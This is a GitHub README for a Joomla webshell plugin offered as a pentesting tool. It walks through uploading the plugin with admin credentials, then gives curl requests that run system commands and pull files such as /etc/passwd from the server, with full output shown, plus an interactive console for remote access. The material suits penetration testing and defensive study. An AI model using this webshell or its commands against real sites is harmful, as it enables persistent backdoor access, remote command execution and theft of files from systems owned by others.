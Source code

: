 # Joomla webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a Joomla website.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/Joomla-webshell-plugin">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for Joomla.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the super user account of the Joomla instance.

### Step 1: Upload the webshell plugin

Go to "System --> Extensions" page, at http://127.0.0.1:10080/administrator/index.php?option=com_installer&view=install, and click on "_Upload Package File_":

![](./.github/upload_and_install.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php with `action=download&path=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/modules/mod_webshell/mod_webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169823449-42289f27-70a0-460b-8f40-9cecda55e6f5.mp4

## References
 - https://docs.joomla.org/Special:MyLanguage/J3.x:Creating_a_simple_module/Developing_a_Basic_Module
 - https://docs.joomla.org/J4.x:Creating_a_Simple_Module
